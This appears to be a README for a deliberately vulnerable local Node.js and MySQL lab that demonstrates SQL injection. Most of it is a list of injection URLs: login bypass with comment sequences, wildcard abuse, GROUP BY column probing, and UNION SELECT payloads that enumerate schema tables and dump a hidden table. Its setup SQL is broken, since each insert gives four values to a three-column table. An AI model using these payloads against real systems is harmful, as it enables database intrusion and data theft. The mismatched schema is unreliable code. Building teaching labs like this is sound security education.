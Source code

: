 # How to Start

You can download a free MySQL database at https://www.apachefriends.org/de/index.html

Start Apache and MySQL Server and go to the http://localhost/phpmyadmin/

create new db with the name "mydbTest" and run:
```
create table users
(
id INTEGER,
name TEXT,
mail TEXT
);

create table important
(
id INTEGER,
info TEXT
);
```
and
```
insert into users values (1,'admin', 'admin@mail.com', '1234567');
insert into users values (2,'user_1','user_1@mail.com', 'user_12345');
insert into users values (3,'user_2','user_2@mail.com', 'user_23456');
insert into users values (4,'user_3','user_3@mail.com', 'user_34567');

insert into important values (1,'very important information about admin');
insert into important values (2,'very important information about user_1');
insert into important values (3,'very important information about user_2');
insert into important values (4,'very important information about user_3');
```

After that run this commands:

`npm install`

then

`node index` or `nodemon`

go to 
<br>
http://localhost:3000/getUser/
<br>
http://localhost:3000/login/Admin&1234567

### What you should try

http://localhost:3000/getUsers

http://localhost:3000/getUser/1
<br>
http://localhost:3000/getUser/1'--%20

http://localhost:3000/login/admin&1234567
<br>
http://localhost:3000/login/admin'--%20&1234567

http://localhost:3000/loginLike/admin&1234567
<br>
http://localhost:3000/loginLike/admin&%25


http://localhost:3000/getUserInfo/1
<br>
http://localhost:3000/getUserInfo/1'%20UNION%20SELECT%201,2,3%20--%20'
<br>
http://localhost:3000/getUserInfo/1'%20GROUP%20BY%205%20--%20'
<br>
http://localhost:3000/getUserInfo/1'%20GROUP%20BY%204%20--%20'
<br>
http://localhost:3000/getUserInfo/1'%20GROUP%20BY%203%20--%20'
<br>
http://localhost:3000/getUserInfo/-1'%20UNION%20SELECT%201,2,TABLE_NAME%20FROM%20INFORMATION_SCHEMA.TABLES%20%20--%20
<br>
http://localhost:3000/getUserInfo/-1'%20UNION%20SELECT%201,2,COLUMN_NAME%20FROM%20INFORMATION_SCHEMA.COLUMNS%20WHERE%20TABLE_NAME='important'%20--%20
<br>
http://localhost:3000/getUserInfo/-1'%20UNION%20SELECT%201,id,info%20FROM%20important%20--%20
